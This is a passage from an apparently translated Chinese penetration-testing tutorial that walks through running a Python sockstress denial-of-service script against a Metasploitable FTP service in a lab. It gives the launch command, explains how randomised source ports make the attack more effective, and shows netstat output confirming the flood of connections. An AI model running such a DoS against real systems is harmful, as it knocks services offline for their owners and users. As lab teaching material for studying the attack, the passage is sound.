 请注意，此脚本有两个主要功能，包括 sockstress 攻击功能和单独的正常关机功能。 关闭需要单独的函数，因为为了使脚本正常运行，脚本必须修改本地 iptables 规则。 此更改是必需的，以便使用 Scapy 完成与远程主机的 TCP 连接。 在第三章“端口扫描”的“使用 Scapy 配置连接扫描”中，更彻底地解决了这一问题。 在执行脚本之前，我们可以使用 netstat 和 free 工具为已建立的连接和正在使用的内存获取基线：

```
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED 
tcp6       0      0 172.16.36.131%13464:ssh 172.16.36.1%8191:49826  ESTABLISHED 
udp        0      0 localhost:32840         localhost:32840         ESTABLISHED 
msfadmin@metasploitable:~$ free -m 

             total       used       free     shared    buffers     cached 
Mem:           503        157        345          0         13         54 
-/+ buffers/cache:         89        413 
Swap:            0          0          0 
```

通过使用 netstat，然后通过管道输出到`grep`函数，并只提取已建立的连接，我们可以看到只存在两个连接。 我们还可以使用`free`工具查看当前的内存使用情况。 `-m`选项用于返回以兆字节为单位的值。 在确定已建立的连接和可用内存的基线后，我们可以对此目标服务器启动攻击：

```
root@KaliLinux:~# ./sock_stress.py 
Usage - ./sock_stress.py [Target-IP] [Port Number] [Threads] 
Example - ./sock_stress.py 10.0.0.5 21 20 
Example will perform a 20x multi-threaded sock-stress DoS attack against the FTP (port 21) service on 10.0.0.

***NOTE*** 
Make sure you target a port that responds when a connection is made 
root@KaliLinux:~# ./sock_stress.py 172.16.36.131 21 20

The onslaught has begun...use Ctrl+C to stop the attack
```

通过在没有任何提供的参数的情况下执行脚本，脚本将返回预期的语法和用法。脚本在执行时接受三个参数。这些参数包括目标 IP 地址，sock stress DoS所发送的端口号，以及将用于执行 sock stress DoS 的线程或并发进程的数量。每个线程以生成 0 到 65,535 之间的整数值开始。此范围表示可分配给源端口的全部可能值。定义源和目的地端口地址的 TCP 报头的部分在长度上都是 16 比特。每个位可以为值 1 或 0。因此，有`2 ** 16`或 65,536 个可能的 TCP 端口地址。单个源端口只能维持单个连接，因此通过为每个连接生成唯一的源端口地址，我们可以大大提高攻击的效率。一旦攻击开始，我们可以通过检查在目标服务器上建立的活动连接，来验证它是否正常工作：

```
msfadmin@metasploitable:~$ netstat | grep ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:25624     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12129     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:31294     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:46731     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:15281     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:47576     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:27472     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:11152     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:56245     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:1161      ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:21064     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:29344     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:43747     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:59609     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:31927     ESTABLISHED
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12257     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:54709     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:55595     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:12992     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:24171     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:37207     ESTABLISHED 
tcp        0     20 172.16.36.131:ftp       172.16.36.232:39224     ESTABLISHED 
```
